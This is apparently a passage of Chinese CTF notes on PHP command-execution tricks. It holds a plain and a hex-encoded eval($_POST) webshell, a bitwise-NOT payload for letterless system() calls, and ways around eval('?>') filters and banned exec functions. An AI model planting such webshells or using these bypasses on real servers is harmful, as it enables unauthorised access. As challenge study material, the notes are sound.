     
```
//复制，压缩，写shell等方法
copy flag.php flag.txt
mv flag.php flag.txt
cat flag.php &gt; flag.txt
```
```
//压缩方法
tar cvf flag.tar flag.php #tar压缩
tar zcvf flag.tar.gz flag.php  #tar解压
zip flag.zip flag.php  #zip压缩
unzip flag.zip  #zip解压
```
```
// 写shell方法【echo &#34;&lt;?php @eval(\$_POST[123]); ?&gt;&#34; &gt; webshell.php】
// 3c3f706870206576616c28245f504f53545b3132335d293b203f3e是&lt;?php eval($_POST[123]); ?&gt;的十六进制编码
echo 3c3f706870206576616c28245f504f53545b3132335d293b203f3e|xxd -r -ps &gt; webshell.php
```

### 取反绕过

&gt; 一般用于无字母RCE

```PHP
&lt;?php
echo urlencode(~&#39;system&#39;);
echo &#34;\n&#34;;
echo urlencode(~&#39;cat /flllllaaaaaaggggggg&#39;);
?&gt;
```

```
?wllm=(~%8C%86%8C%8B%9A%92)(~%9C%9E%8B%DF%D0%99%93%93%93%93%93%9E%9E%9E%9E%9E%9E%98%98%98%98%98%98%98); 
# ?wllm=system(ls /);
```

### eval执行时用了php的结束标志?&gt;绕过

&gt; 源码显示：`eval(&#34;?&gt;&#34;. $word);`

* `&lt;? echo &#39;123&#39;;?&gt;`

  但前提是前提是开启配置参数short_open_tags=on

* `&lt;script language=&#34;php&#34;&gt;echo &#39;hello&#39;;`

  不需要修改参数开关，但是只能在7.0以下可用

* `&lt;% echo &#39;123&#39;;%&gt;`

  开启配置参数`asp_tags=on`，并且只能在7.0以下版本使用

### 直接执行命令函数ban

如果禁用system,exec等直接执行命令函数，可以用file_put_contents函数绕过

